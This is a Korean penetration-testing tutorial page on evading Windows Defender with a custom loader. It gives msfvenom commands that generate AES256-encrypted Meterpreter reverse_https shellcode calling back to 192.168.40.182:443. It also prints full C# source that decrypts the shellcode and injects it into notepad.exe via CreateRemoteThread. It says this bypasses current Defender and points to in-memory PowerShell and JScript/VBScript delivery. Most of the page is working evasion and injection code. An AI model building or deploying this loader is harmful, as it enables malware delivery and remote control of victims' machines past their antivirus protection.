

# 간단 디펜더 우회

윈도우 10과 윈도우 11의 워크스테이션용 디펜더는 날이 갈수록 그 성능이 좋아지고 있다. EDR 솔루션들 만큼은 아니지만, 시중에 나와있는 평범한 AV 솔루션들보다 그 성능이 더 좋아보일 정도다. 모의해킹을 진행하다보면 시간이 적어 빨리 빨리 일을 진행해야하기 때문에 매번 페이로드를 새롭게 생성할 시간적 여유가 없다. 이 페이지에서는 간단하게 워크스테이션용 디펜더 (ATP는 아니다)를 커스텀 로더 (Custom Loader)를 이용해 우외하는 방법에 대해서 알아본다.&#x20;

실습에서 만들 커스텀 로더는 AES256으로 암호화된 쉘코드를 런타임 중 복호화하고, 그 뒤 전통적인 `CreateRemoteThread` 프로세스 인젝션으로 미터프리터 (Meterpreter) 쉘코드를 실행할 것이다.&#x20;

### 쉘코드&#x20;

쉘코드는 미터프리터로, msfvenom을 이용해 만든다. 일반적인 쉘코드와는 다르게 암호화 플래그를 사용한다. AES256-CBC 암호화에는 32바이트 (256비트) 암호화 키와 16바이트 (128비트) IV를 사용하기 때문에, 이를 bash를 이용해 먼저 구한 뒤 쉘코드를 생성한다.&#x20;

```
# 키 생성 
bash -c 'echo $RANDOM | md5sum | head -c 32; echo;'

# IV 생성 
bash -c 'echo $RANDOM | md5sum | head -c 16; echo;'

# 키와 IV를 바탕으로 예제 쉘코드 생성
msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
```

이제 이 쉘코드를 커스텀 로더에 집어넣은 뒤, 프로세스 인젝션을 통해 실행시켜보자.&#x20;

### 커스텀 로더 (Loader)&#x20;

기본적으로 msfvenom으로 만드는 미터프리터 (Meterpreter)의 경우에는 `.exe` 나 `.ps1` 등의 페이로드가 이미 디펜더에 시그니쳐 되어있다. 때문에 msfvenom 이 만들어주는 페이로드를 사용하지 않고, 간단하게 커스텀 로더를 만든다.&#x20;

이 실습에서는 가장 간단하게 아무런 난독화를 거치지 않고, 공개된지 매우 오래된 CreateRemoteThread 기법을 사용한 커스텀 로더를 제작한다.&#x20;

<details>

<summary>EncryptedCreateRemoteThread.cs</summary>

```
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading;

namespace EncryptCreateRemoteThread
{
    class Program
    {
        public static byte[] Aes256Decrypt(byte[] data, byte[] key, byte[] iv)
        {
            using (var aes = Aes.Create())
            {
                aes.KeySize = 128;
                aes.BlockSize = 128;
                aes.Padding = PaddingMode.Zeros;

                aes.Key = key;
                aes.IV = iv;

                using (var decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
                {
                    return PerformCryptography(data, decryptor);
                }
            }
        }

        private static byte[] PerformCryptography(byte[] data, ICryptoTransform cryptoTransform)
        {
            using (var ms = new MemoryStream())
            using (var cryptoStream = new CryptoStream(ms, cryptoTransform, CryptoStreamMode.Write))
            {
                cryptoStream.Write(data, 0, data.Length);
                cryptoStream.FlushFinalBlock();

                return ms.ToArray();
            }
        }

        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
            byte[] bufEncrypted = new byte[624] { <shellcode...> };

            string key = "9db7ad8ace353ab54a812373d7c0a01f";
            string iv = "3a9d7c0cf4ac0431";
            byte[] buf = Aes256Decrypt(bufEncrypted, Encoding.ASCII.GetBytes(key), Encoding.ASCII.GetBytes(iv));

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;

            IntPtr hProc = OpenProcess(ProcessAccessFlags.All, false, pid);
            IntPtr pAlloc = VirtualAllocEx(hProc, IntPtr.Zero, (uint)buf.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ReadWrite);
            bool rWPM = WriteProcessMemory(hProc, pAlloc, buf, (uint)buf.Length, out IntPtr byteWritten);
            bool rVPE = VirtualProtectEx(hProc, pAlloc, (uint)buf.Length, (uint)MemoryProtection.ExecuteRead, out uint lpflOldProtect);
            IntPtr hThread = CreateRemoteThread(hProc, IntPtr.Zero, (uint)0, pAlloc, IntPtr.Zero, (uint)0, out IntPtr lpThreadId);


            /*Console.WriteLine("[+] Process handle = {0}", hProc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Allocated memory address = 0x{0}", pAlloc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] WriteProcessMemory result = {0}", rWPM.ToString());
            Console.WriteLine("[+] VirtualProtectExe result = {0}", rVPE.ToString());
            Console.WriteLine("[+] Thread handle = {0}", hThread.ToInt64().ToString("x2"));*/
        }

        //  ============================ PInvoke - Ignore me ============================

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(ProcessAccessFlags processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [Flags]
        public enum ProcessAccessFlags : uint
        {
            All = 0x001F0FFF,
            Terminate = 0x00000001,
            CreateThread = 0x00000002,
            VirtualMemoryOperation = 0x00000008,
            VirtualMemoryRead = 0x00000010,
            VirtualMemoryWrite = 0x00000020,
            DuplicateHandle = 0x00000040,
            CreateProcess = 0x000000080,
            SetQuota = 0x00000100,
            SetInformation = 0x00000200,
            QueryInformation = 0x00000400,
            QueryLimitedInformation = 0x00001000,
            Synchronize = 0x00100000
        }

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
    }
}
```

</details>

PInvoke를 제외한다면 `OpenProcess -> VirtualAllocEx -> WriteProcessMemory -> VirtualProtectEx -> CreateRemoteThread` 를 사용하는 전통적인 프로세스 인젝션 로더다. 이와 관련된 기법은 이 [CreateRemoteThread 페이지](프로세스-인젝션/createremotethread.md)에서 서술했다.&#x20;

`Main()` 함수를 보다보면 안에 `bufEncrypted` 변수가 있다. 여기에는 위에서 만든 쉘코드를 집어넣어주면 된다.&#x20;

PDB를 제거한 뒤, x64로 컴파일한다. 20년이 넘은 `CreateRemoteThread` 기법에 아무런 난독화를 거치지 않아도 정적분석은 나름 괜찮게 우회하는 편이다. 물론 왠만한 EDR 솔루션들은 위 페이로드를 실행하는 순간 바로 잡아낼 것이다. (디펜더 우회가 아니라 EDR 솔루션 우회는 direct syscall 과 Call Stack Spoofing 등의 기법을 이용하는데, 이에 대해서는 다른 페이지에서 서술한다.)

.png>)


최신 EDR 솔루션들을 우회하기는 어렵겠지만, 가장 최신 버전의 디펜더는 우회하는 모습을 볼 수 있다.&#x20;



C# 으로 만든 페이로드기 때문에 [파워쉘-C# 페이지](../실행/파워쉘/시샵-실행.md)에서 서술했던 대로 메모리상에서 파워쉘을 통해 실행시킬 수도 있다. 혹은 [DotNettoJS 페이지](../초기침투/피싱-첨부파일/dotnettojs.md)에서 서술했던 대로 JScript나 VBScript 등으로 변환할 수도 있다.&#x20;
